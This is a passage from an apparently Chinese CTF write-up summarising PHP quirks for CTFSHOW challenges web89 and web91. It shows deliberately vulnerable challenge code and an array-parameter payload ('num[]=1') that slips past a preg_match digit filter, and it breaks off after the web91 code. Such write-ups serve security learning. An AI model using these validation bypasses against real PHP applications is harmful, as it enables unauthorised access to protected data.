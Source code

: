 ## 前言

这篇文章是对自己积累的`php特性`总结一下,根据CTFSHOW提供的代码

##  1.数组绕过正则表达式--绕preg_match

### web89

```php
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```

```
preg_match
返回值
返回完整匹配次数（可能是0），或者如果发生错误返回FALSE。
```

正则表达式，遇到一个数组，而不是一个字符串的话，就会返回false，从而绕过。

```
payload:num[]=1
```

##  2.正则表达式修饰符--绕preg_match

###  web91

```php
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
    if(preg_match('/^php$/i', $a)){
        echo 'hacker';
    }
    else{
        echo $flag;
    }
}
else{
    echo 'nonononono';
}
```

拓展
